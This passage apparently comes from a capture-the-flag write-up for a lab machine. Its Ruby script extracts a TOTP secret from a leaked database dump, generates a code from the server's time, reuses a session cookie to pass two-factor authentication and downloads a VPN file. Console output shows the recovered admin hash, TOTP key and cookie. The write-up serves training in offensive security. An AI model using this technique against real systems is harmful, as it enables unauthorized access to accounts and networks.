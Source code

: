 To get a valid code for 2FA using TOTP, we need to put the current time of the web server. This time is present in the Date HTTP response header. And then we get the TOTP code using `rotp` library:

```ruby
server_time = Time.parse(res['Date']).to_i
code = ROTP::TOTP.new(totp).at(server_time)
puts "[*] Generating TOTP code: #{code}"
```

And then we enter the code in the web server. It will send a redirect to the portal (URL inside the Location header):

```ruby
res = Net::HTTP.post(url, "code=#{code}", { Cookie: cookie })
location = res['Location']
```

Notice that we need to enter the same cookie as the previous request to maintain the same session with the server.

And finally, we can download the VPN as `static.ovpn`:

```ruby
puts "[+] 2FA successful. Go to http://#{host}/vpn/#{location}"
puts "[+] Cookie: #{cookie}"
puts '[*] Downloading OVPN file...'

url = URI("http://#{host}/vpn/#{location}")
res = Net::HTTP.post(url, 'cn=static', { Cookie: cookie })

File.open(ovpn_file, 'w') { |f| f.write(res.body) }

puts "[+] Downloaded OVPN file: #{ovpn_file}"
```

If we execute the script, we will get the VPN file:

```console
$ ruby get_vpn.rb
[*] Downloading corrupted db.sql.gz file
[+] Patched db.sql.gz file. Found db.sql:

CREATE DATABASE static;
USE static;
CREATE TABLE users ( id smallint unsigned not null auto_increment, username varchar(20) not null, password varchar(40) not null, totp varchar(16) not null, primary key (id) );
INSERT INTO users ( id, username, password, totp ) VALUES ( null, 'admin', 'd033e22ae348aeb5660fc2140aec35850c4da997', 'orxxi4c7orxwwzlo' );

[+] Using TOTP key: orxxi4c7orxwwzlo
[+] Login successful
[*] Generating TOTP code: 508175
[+] 2FA successful. Go to http://10.10.10.246:8080/vpn/panel.php
[+] Cookie: PHPSESSID=1l5prlovq3bek3488ehmi03koj; path=/
[*] Downloading OVPN file...
[+] Downloaded OVPN file: static.ovpn
```
